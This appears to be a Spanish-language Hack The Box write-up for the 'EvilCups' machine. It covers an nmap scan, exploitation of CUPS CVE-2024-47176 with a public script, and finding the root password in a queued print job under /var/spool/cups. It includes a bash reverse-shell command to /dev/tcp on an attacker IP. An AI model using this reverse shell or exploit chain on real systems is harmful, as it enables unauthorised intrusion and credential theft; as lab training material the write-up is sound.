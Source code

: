 ```yaml
---

title: Writeup EvilCups
published: True

---
```


* * *

En este writeup, exploramos la máquina **EvilCups** de Hack The Box, donde explotamos múltiples vulnerabilidades para escalar privilegios y comprometer el sistema. Utilizamos técnicas como la **enumeración de servicios expuestos**, la explotación de **vulnerabilidades recientemente publicadas de CUPS**,etc...

**CUPS** es un sistema de impresión utilizado en sistemas operativos UNIX, que permite a los usuarios configurar y gestionar impresoras locales y en red mediante el uso de controladores.

# RECONOCIMIENTO
Realizamos un escaneo con nmap:

	❯ nmap -sCV -v 10.10.11.40 -Pn -T3
	
Como resultado encontramos esto:

  ```ruby
  
  PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 364995038db44c6ea92592af3c9e0666 (ECDSA)
|_  256 9fa4a9391120e096eec49a6928950c60 (ED25519)
631/tcp open  ipp     CUPS 2.4
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Home - CUPS 2.4.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Y encontramos dos puertos Tcp abiertos.
Vamos a ver que encontramos dentro de el puerto 631.

Aquí encontramos una versión:
![Texto alternativo](/assets/evilcups1.png)
* * *

# Foothold

El foothold en esta máquina es fácil. Vamos a buscar vulnerabilidades en esa versión de CUPS:

Y relacionada con esa versión encontramos un CVE, en concreto este:
	CVE-2024-47176

Asique vamos a proceder a explotarlo.
```js
❯ python3 evilcups.py 10.10.15.127 10.10.11.40 "bash -c 'bash -i >& /dev/tcp/10.10.15.127/8484 0>&1'"
```
![Texto alternativo](/assets/EvilCups2.png)

Para conseguir la reverse shell nos metemos dentro de la "impresora" que hemos conseguido crear mediante el exploit, y vamos a seleccionar esta opcion:

![Texto alternativo](/assets/EvilCups3.png)
![Texto alternativo](/assets/EvilCups4.png)

Y ya estaríamos con la reverse shell, listamos el contenido dentro del directorio en el que nos encontramos y encontraríamos la user flag.

Después de estar mirando por la máquina encontré que todos los trabajos de impresión se almacenan en /var/spool/cups

Como no tenemos permisos para listar el contenido, necesitamos saber cual es el siguiente "trabajo"/documento que la impresora que ya existe, para poder listarlo y así descargármelo.

En este caso ese "trabajo" de impresion tiene el nombre d00001-001
En el que significa:

```js
❯ -d: nos indica que es un archivo de datos de impresion
	00001: identifica el primera trabajo ne la cola
	001: especifica la instancia única del trabajo.
```
Todo este nombre se suele deducir a partir de el formato estandar que se utiliza en cups.
Tambien podriamos obtener este nombre realizando varios comandos en la maquina victicma, para ver que trabajos estan en cola como:
```js
	lpstat -o
	ls /var/spool/cups (si tenemos permisos)
	lpq
```
Pués una vez encontrado ese "trabajo" en cola, me lo voy a pasar a mi maquina para pasarlo a pdf y poder leerlo.

Para convertirlo a pdf utilize este comando:

```js
	ps2pdf d00001-001
```

Y dentro de ese archivo que ahora es un pdf encontramos la contraseña de root.
![Texto alternativo](/assets/EvilCups5.png)

Una vez encontrada la contraseña de root vamos a proceder mediante SSH a conectarnos y capturar la rootflag:

![Texto alternativo](/assets/EvilCups6.png)

PWNED!

# Documentación de aporte

https://www.cups.org/doc/spec-design.html

https://github.com/AxthonyV/CVE-2024-47176
